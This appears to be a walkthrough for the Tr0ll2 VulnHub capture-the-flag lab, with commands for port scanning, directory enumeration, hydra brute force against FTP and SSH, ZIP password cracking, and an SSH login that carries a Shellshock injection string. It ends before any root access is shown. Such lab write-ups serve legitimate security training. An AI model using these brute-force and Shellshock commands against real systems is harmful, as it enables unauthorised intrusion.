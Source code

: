 # Tr0ll2 VulnHub Walkthrough

## Overview

- **Difficulty:** Intermediate
- **Objective:** Gain root access and retrieve the final flag.
- **Tools Used:** nmap, feroxbuster, wget, base64, hydra, ssh, fcrackzip

**Target IP Address:** 192.168.48.166 (replace with your assigned IP).

---

## Step 1: Network Discovery

Perform an initial scan using nmap to identify open ports and services:

```bash
nmap 192.168.48.166 -sV
```

**Output:**

```
Starting Nmap 7.95 ( https://nmap.org )  
Nmap scan report for 192.168.48.166  
Host is up (0.0084s latency).  

PORT     STATE SERVICE VERSION  
21/tcp   open  ftp     vsftpd 2.0.8 or later  
22/tcp   open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)  
80/tcp   open  http    Apache httpd 2.2.22 ((Ubuntu))  

MAC Address: 00:0C:29:4C:BC:34 (VMware)  
Service Info: Host: Tr0ll; OS: Linux
```

---

## Step 2: Web Enumeration

1. **Visit the HTTP service (port 80):**
   - Check for visible clues on the main page.
   - View the `robots.txt` file.

2. **Use feroxbuster for directory enumeration:**

```bash
feroxbuster -u http://192.168.48.166/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -C404
```

**Notable discoveries:**
- `/dont_bother/`
- `cat_the_troll1.jpg`

3. **Analyze the image:**

```bash
strings --all cat_the_troll1.jpg
```

**Clue found:**
"Look Deep within y0ur_self for the answer."

4. **Access the hidden directory and retrieve the encoded file:**

```bash
wget http://192.168.48.166/y0ur_self/answer.txt
```

5. **Decode the file (Base64):**

```bash
base64 -d answer.txt >> pass.txt
```

6. **Extract usernames and passwords:**

```bash
cat usr.txt
```

---

## Step 3: Brute Force Login

### FTP Brute Force

```bash
hydra -L usr.txt -P usr.txt 192.168.48.166 ftp -I
```

**Result:**
- Username: Tr0ll
- Password: Tr0ll

### SSH Brute Force

```bash
hydra -L usr.txt -P usr.txt 192.168.48.166 ssh -I
```

**Result:**
- Username: Tr0ll
- Password: Tr0ll

---

## Step 4: Exploiting

### Access via SSH

```bash
ssh Tr0ll@192.168.48.166
```

**Note:** Upon logging in, the connection is terminated automatically: "signature issues"

### Access via FTP

1. **Log in to FTP:**

```bash
ftp Tr0ll@192.168.48.166
```

2. **Download the ZIP file:**

```bash
get lmao.zip
```

3. **Crack the ZIP password:**

```bash
fcrackzip -u -D -p '/path/to/pass.txt' lmao.zip
```

**Password:** ItCantReallyBeThisEasyRightLOL

4. **Extract the ZIP file:**

```bash
unzip lmao.zip
```

5. **Inspect extracted contents:**
   - Locate the RSA private key (e.g., `noob`).

---

## Step 5: Privilege Escalation

### SSH Access as Noob

Use the private key to log in as `noob`:

```bash
ssh -i noob noob@192.168.48.166 -o PubkeyAcceptedKeyTypes=ssh-rsa
```

**Troubleshooting:** If login fails due to signature issues, use the following workaround:

```bash
ssh -i noob noob@192.168.48.166 -o PubkeyAcceptedKeyTypes=ssh-rsa '() { :;}; /bin/bash'
```

Once inside, explore the system for privilege escalation opportunities.

---

## Final Notes

**Disclaimer:** This walkthrough is intended solely for educational purposes. Always ensure you have explicit permission to test systems before conducting any form of penetration testing.

Happy Hacking!

